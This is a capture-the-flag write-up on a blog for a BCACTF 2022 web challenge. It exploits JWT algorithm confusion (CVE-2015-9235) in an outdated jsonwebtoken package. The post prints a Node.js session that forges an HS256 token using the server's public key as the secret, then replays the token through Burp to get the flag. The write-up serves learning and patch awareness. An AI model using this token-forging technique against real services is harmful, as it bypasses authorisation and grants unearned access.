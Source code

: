 ```yaml
---
layout: post
title:  "Jason's Tarot 3 (Web Challenge Writeup) -- BCACTF 3.0 2022"
date:   2022-06-06
image: /bcactf22/logo.png
---
```

<p class="intro"><span class="dropcap">B</span>CACTF 2022 took place on June 3 to 6, 2022. It was 72 hours of challenges and exceptional support from the organizers. This WEB challenge is perfect to demonstrate why it is important to keep all the software we use up to date. The security of the software supply chain is of great importance following multiple far-reaching cyber attacks in recent years.</p>


#### Challenge Description: 

<figure>
        <img src="/assets/img/bcactf22/chall2.png" alt="" />
        <figcaption>Challenge Description</figcaption>
</figure>

We see that we were given three files to review: a public key certificate, a package.json and the server.js, 

We review the server.js

<figure>
        <img src="/assets/img/bcactf22/server-js.png" alt="" />
        <figcaption>server.js</figcaption>
</figure>

and, most important, review the package.json

<figure>
        <img src="/assets/img/bcactf22/package-json.png" alt="" />
        <figcaption>package.json</figcaption>
</figure>

We started loading the page with Burpsuit intercepted ON to capture the JWT 

<figure>
        <img src="/assets/img/bcactf22/web.png" alt="" />
        <figcaption>Main site</figcaption>
</figure>

To decode the header and payload parts we use a web tool called [jwt.io](https://jwt.io)

<figure>
        <img src="/assets/img/bcactf22/jwt-io.png" alt="" />
        <figcaption>jwt_io</figcaption>
</figure>

Like the [Jason's Web Tarot 2](https://leonuz.github.io/blog/Jasons-Web-Tarot-2/) challenge, we need to become subscribed users to the application, to do this, we need to change (in the JWT) the value of the `"isSubscriber"` variable from its current value, `False`, to a new one, `True`. 

In the review of the package.json file, we notice that the *jsonwebtoken* version its 3.2.2, this version its outdated and vulnerable!!

<figure>
        <img src="/assets/img/bcactf22/CVE-2015-9235.png" alt="" />
        <figcaption>CVE-2015-9235</figcaption>
</figure>

So in order to exploit that vulnerability, we need to build a new HMAC(HS256) token using the public key as a secret to it. 
We used nodejs jsonwebtoken module to do this 


{%- highlight bash -%}
┌──(leonuz㉿sniperhack)-[~/Downloads/ctf/bcactf/JWT]
└─$ node
Welcome to Node.js v16.14.2.
Type ".help" for more information.
> const jwt = require('jsonwebtoken')
undefined
> var fs = require('fs')
undefined
> var publicKey = fs.readFileSync('./public.pem');
undefined
> var token = jwt.sign({ "isSubscriber": true, "iat": 1654387812  }, publicKey, { algorithm:'HS256'});
undefined
> console.log(token)
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc1N1YnNjcmliZXIiOnRydWUsImlhdCI6MTY1NDM4NzgxMn0.jAwGD9e6JahpPHJZMfULiToDy12M9WaMoI_18hSZDko
undefined
{%- endhighlight -%}

Now we have the new JWT

<figure>
        <img src="/assets/img/bcactf22/burp-req.png" alt="" />
        <figcaption>New JWT token</figcaption>
</figure>


Now, all that remains is to substitute the new token in the request and send the new request. 
We use the function ["Repeatear" of Burpsuit](https://portswigger.net/burp/documentation/desktop/tools/repeater/using) to do that.

<figure>
        <img src="/assets/img/bcactf22/burp-flag2.png" alt="" />
        <figcaption>Send new Token and get the Flag</figcaption>
</figure>


And we get the flag!  

<figure>
        <img src="/assets/img/bcactf22/flag2.png" alt="" />
        <figcaption>Flag</figcaption>
</figure>


#### bcactf{w3_d3f1n3tly_d1dnt_h4v3_t0_ch4ng3_th1s_101010101010}

- - -
## Final Notes.  

[NIST](https://www.nist.gov/) recently released several key deliverables relating to cybersecurity. These focus on secure software development and new consumer labeling programs as contemplated by President Biden’s Executive Order 14028, which seeks to implement multiple new practices to improve the Nation’s cybersecurity.

More Info [here](https://www.jdsupra.com/legalnews/nist-releases-new-guidance-on-software-8128301/)

- - -
Thanks [BCACTF](https://www.bcactf.com/) for this great CTF, congratulations to the whole team!.  

For fun and knowledge, always think out of the box! :)

<figure>
        <img src="/assets/img/bcactf22/cert.png" alt="" />
</figure>
